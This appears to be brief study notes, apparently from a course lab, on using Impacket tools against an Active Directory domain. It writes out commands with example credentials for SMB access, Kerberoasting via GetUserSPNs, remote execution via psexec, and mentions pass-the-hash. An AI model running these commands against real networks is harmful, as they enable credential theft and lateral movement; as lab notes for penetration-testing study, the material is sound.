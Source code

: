 example: impacket-smbclient aulas/postgrados:'mieia'@172.17.37.32 - This is to access the shared files at the AD

it can be used to get SPNs to do a kerberoasting attack
Kerberoast attack example:
impacket-GetUserSPNs -outputfile kerberoastables.txt -dc-ip 10.0.0.4 'contoso.com/diplomado:password'


impacket-psexec contoso/diplomado:password@10.0.0.21  
To access to target machine. It if had admin it can be interesting.


Impacket Supports Pass the Hash attack.
